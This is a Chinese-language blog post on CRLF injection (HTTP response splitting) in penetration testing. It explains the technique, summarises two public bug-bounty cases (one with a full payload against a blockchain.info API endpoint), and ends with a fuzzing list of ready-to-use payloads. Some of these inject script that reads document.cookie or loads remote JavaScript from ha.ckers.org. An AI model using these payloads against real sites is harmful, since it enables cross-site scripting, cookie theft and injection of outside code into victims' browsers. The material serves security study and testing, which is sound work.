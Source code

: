 # Original
今天看国外案例的时候看到CRLF的案例，突然也想写一篇文章来记录一下。

# First What Is CRLF
```
CRLF是Carriage-Return Line-Feed的缩写，意思是回车换行，就是回车(CR, ASCII 13, \r) 换行(LF, ASCII 10, \n)，CRLF字符（%0d%0a）CRLF也被称为HTML拆分。
```
我们在渗透测试过程中可以寻找我们可控返回包header的请求
比如下面这个请求
```
GET /test/demo.php?url=https://syslaowang.github.io/
xxxxxxxxxxxxxxxxxxxxx
xxxxxxxxxxxxxxxxx
```
response

```
HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: deflate
xxxxxxxx
Locations=https://baidu.com
```
向上述这种返回包里面的header可控的请求我们就可以尝试进行CRLF注入。
```
%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2047%0d%0a%0d%0a<script>alert(1)</script>
```
`Content-Length：0` 代表header 的结尾，返回包会变成这个样子
```
HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: deflate
xxxxxxxx
Locations=https://baidu.com
Content-Length: 0

<script>alert(1)</script>

```
这样我们就会触发我们的js并弹窗
这也就是最简单的一次**crlf注入**
# 案例
我在国外的漏洞库`pentester.land`搜集了2个CRLF案例
案例一
http://blog.shashank.co/2017/11/crlf-injection-in-bockchaininfo.html
```
GET /charts/total-bitcoins?cors=true&format=csv&lang=english HTTP/1.1
Host: api.blockchain.info
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
HTTP/2.0 200 OK
date: Tue, 31 Oct 2017 15:47:21 GMT
content-type: text/csv; charset=ascii
content-length: 10953
access-control-allow-origin: *
cache-control: public, max-age=60
content-disposition: attachment; filename="total-bitcoins.csv"
content-language: english


"lang"参数出现在了返回包里
现在为了注入CRLF 我们需要url编码一下\r\n "%0D%0A"
据此发送如下请求
https://api2.blockchain.info/charts/total-bitcoins?cors=true&format=csv&lang=en%0ATEST
新的header出现在了返回包里

这里存在CRLF注入漏洞 ，这样可以进行利用CRLF漏洞去执行JavaScript代码，去盗取cookie

最终的Payload

https://api2.blockchain.info/charts/total-bitcoins?cors=true&format=csv&lang=en%0AX-XSS-Protection:0%0AContent-Type:text/html%0AContent-Length:35%0A%0A%3Csvg%20onload%3Dalert%28document.domain%29%3E&__cf_waf_tk__=012853002E6loVIOSyqHfdxrvHJ87MshEnZI

```

案例二

https://medium.com/bugbountywriteup/bugbounty-exploiting-crlf-injection-can-lands-into-a-nice-bounty-159525a9cb62
```
因为详情写的没有请求包和发现过程
但我可以推算一下
他的请求包出现在了返回包中，比如http://test.com/aaaaaa
我们的aaaa会出现在header中，之后我们就可以测试CRLF的攻击了
利用思路和原来一样就不再写了
```
# KEEP FUZZING
我们在实战中可以选用fuzz 的手段进行挖掘和bypass
so我们再一次分享Payload
```
%0d%0a
%0d%0a%0d%0a
r%0d%0aContentLength:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContentType:%20text/html%0d%0aContentLength:%2019%0d%0a%0d%0a<html>Injected%02Content</html>
%0d%0d%0a%0a
0x0D0x0A
0x0D0x0D0x0A0x0A
\r\n
%5cr%5cn
%0%0d%0ad%0%0d%0aa
%0%0D%0AD%0%0D%0AA
%0d%0aContentType:%20text/html;charset=UTF-7%0d%0aContent-Length:%20129%0d%0a%0d%0a%2BADw-html%2BAD4-%2BADw-body%2BAD4-%2BADw-script%2BAD4-alert%28%27XSS,cookies:%27%2Bdocument.cookie%29%2BADw-/script%2BAD4-%2BADw-/body%2BAD4-%2BADw-/html%2BAD4
%0AContent-Type:html%0A%0A%3Cscript%3Ealert(%22XSS%22)%3C/script%3E
%0A%0A%3Cscript%3Ealert(%22XSS%22)%3C/script%3E
%0AContent-Type:html%0A%0A%3Cscript%3Ealert(%22XSS%22)%3C/script%3Ehttp://www.test.com
%0d%0a%0d%0a%3Chtml%3E%3Cbody%3E%3C%2Fbody%3E%3Cscript+src%3Dhttp%3A%2F%2Fha.ckers.org%2Fs.js%3E%3C%2Fscript%3E%3Cscript%3Ealert(%22location.host%20is:%20%22%2Blocation.host)%3C%2Fscript%3E%3C%2Fhtml%3E
%0d%0a%0d%0a%3Cscript+src%3Dhttp%3A%2F%2Fha.ckers.org%2Fxss.js%3E%3C%2Fscript%3E
%22%3E%0A%0A%3Cscript%3Ealert(%22XSS%22)%3C/script%3E%3C%22
%0AContent-type:%20text/html%0A%0Ahttp://www.test.com/%3Cscript%3Ealert(%22XSS%22)%3C/script%3E
%0d%0a%0d%0a%3Cscript%3Ealert(%22XSS%22)%3C%2Fscript%3E
%0A%0A%3Cscript%3Ealert(%22XSS%22)%3C/script%3E
```

# 总结
临时想到要写的一篇文章，研究新漏洞总结新思路！！
